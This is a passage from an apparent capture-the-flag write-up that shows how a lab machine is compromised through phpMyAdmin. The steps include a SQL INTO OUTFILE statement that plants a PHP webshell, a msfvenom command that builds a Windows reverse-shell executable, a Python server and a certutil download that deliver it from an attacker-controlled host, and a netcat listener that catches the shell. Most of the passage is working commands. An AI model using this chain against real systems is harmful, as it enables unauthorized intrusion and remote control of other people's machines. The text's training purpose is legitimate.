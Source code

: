 ### PHP Webshell

I came through that [article](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/)that shows the steps we are going to follow in order to get a full reverse shell to the machine.

1. We go to the **SQL** tab.
![SQL_tab](post/Django_PwnTillDawn/imgs/5.JPG)

2. Then, We upload the **PHP webshell** backdoor.
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

![SQL_tab2](post/Django_PwnTillDawn/imgs/6.JPG)

3. Then, We go the **PHP webshell** place and execute arbitary commands.

![php_webshell](post/Django_PwnTillDawn/imgs/7.JPG)

4. After that, We need to upload a **Reverse shell payload** at the victim's machine and then run it to get the **RevShell**.

5. Make the RevShell payload using **MsVenom**.
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.66.X.X LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

6. Then, Setup a **Python server** to upload that payload in the victim's machine.
```bash
$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

7. Now, Upload the **RevShell** payload using **Certutils.exe**.
```powershell
Certutils.exe:
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

8. Now, We edit it to suit our case and upload the payload.
![certutils.exe](post/Django_PwnTillDawn/imgs/8.JPG)

![certutils.exe2](post/Django_PwnTillDawn/imgs/9.JPG)

9. Now, We can setup a **Netcat Listener** and get a **Reverse Shell** after we run the payload.
```bash
$ nc -nlvp 4444
listening on [any] 4444 ...
```
